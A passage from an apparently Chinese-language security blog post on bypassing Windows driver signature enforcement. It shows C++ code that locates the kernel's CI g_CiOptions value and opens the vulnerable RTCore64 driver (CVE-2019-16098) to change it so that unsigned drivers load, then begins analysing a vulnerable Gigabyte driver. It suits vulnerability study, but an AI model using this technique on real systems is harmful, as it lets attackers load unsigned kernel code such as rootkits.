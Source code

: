 ```plain
            return (DWORD64)(pvModules->Modules[i].ImageBase);
        }

    }
    return 0;
}
```

获取内核下的 g\_options:

```plain
DWORD64 g_op = (gOption_NextLine & ~(ULONGLONG)0xFFFFFFFF) + ((gOption_NextLine + gOption_Value) & (ULONGLONG)0xFFFFFFFF);
    printf("g_op = %p \r\n",g_op);

    ULONG64 Kernel_option = GetCiBaseAdress() + (g_op - (ULONG64)hModule);

    printf("kernelOptions = %p \r\n", Kernel_option);
```

> [https://github.com/0xDivyanshu-new/CVE-2019-16098/blob/main/exploit.cpp](https://github.com/0xDivyanshu-new/CVE-2019-16098/blob/main/exploit.cpp)

接下来就只需要使用漏洞驱动去修改此地址，一般来说是使用 RTCore

```plain
const auto Device = CreateFileW(LR"(\\.\RTCore64)",GENERIC_READ | GENERIC_WRITE,0,nullptr,OPEN_EXISTING,0,nullptr);

    if (Device == INVALID_HANDLE_VALUE)
    {
        printf("[!] Unable to obtain a handle to the device object");
        return;
    }

    cout << ReadMemoryWORD(Device, Ci_gOptions) << endl;
```

只需要将这个值改为 0 后就可以加载未签名的驱动了，当然你的驱动加载完毕后需要在将该值改为 6。否则会蓝屏

如果说不想使用 RTCore64 则可以使用去年的技嘉驱动，找了一下发现国内还没发布过这个漏洞的分析，所以在这里做个简单分析：

通过驱动入口点观察，发现注册了派遣函数：sub\_12D10，以及设备\\Device\\GIO，并没有做任何相关认证：
